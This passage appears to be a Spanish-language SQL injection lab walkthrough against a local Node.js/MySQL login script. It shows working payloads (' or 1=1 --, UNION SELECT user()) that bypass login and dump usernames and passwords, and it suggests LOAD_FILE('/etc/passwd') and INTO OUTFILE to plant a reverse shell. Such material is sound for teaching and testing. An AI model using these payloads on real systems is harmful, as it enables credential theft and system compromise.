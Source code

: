 ```
    at Parser.write (/mnt/hgfs/compartida/_borralla/ros/node_modules/mysql/lib/protocol/Parser.js:43:10) {
  code: 'ER_PARSE_ERROR',
  errno: 1064,
  sqlMessage: "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1",
  sqlState: '42000',
  index: 0,
  sql: "SELECT * FROM users WHERE username = 'usuario1' AND password = '' or 1=1 --'"
}
```

Y con esto sacamos todos los usuarios y password de la BD:

```
node sqli_modificado.js usuario1 "' or 1=1 -- "

SELECT * FROM users WHERE username = 'usuario1' AND password = '' or 1=1 -- '
Login successful!
[
  RowDataPacket { username: 'usuario1', password: 'password1' },
  RowDataPacket { username: 'usuario2', password: 'password2' }
]

```

Con esto empezamos a exfiltrar otro tipo de información:

```
node sqli_modificado.js whatever "' union all select 1,2 -- "

SELECT * FROM users WHERE username = 'whatever' AND password = '' union all select 1,2 -- '
Login successful!
[ RowDataPacket { username: '1', password: '2' } ]
```


Y con esto el usuario con el que estamos conectados a la BD:

```
node sqli_modificado.js whatever "' union all select user(),system_user() -- " 

SELECT * FROM users WHERE username = 'whatever' AND password = '' union all select user(),system_user() -- '
Login successful!
[
  RowDataPacket {
    username: 'test@localhost',
    password: 'test@localhost'
  }
]
```

A partir de aquí es cuestión de seguir tirando del hilo. 
En función de los permisos que tenga el usuario "test" en nuestro MySQL, podríamos llegar a comprometer completamente el sistema:
- Si puede leer ficheros del sistema local: SELECT LOAD_FILE(‘/etc/passwd’) 
- Si puede escribir en algunas rutas: SELECT 'REVSHELL' INTO OUTFILE 'PATH' 
- Etc...
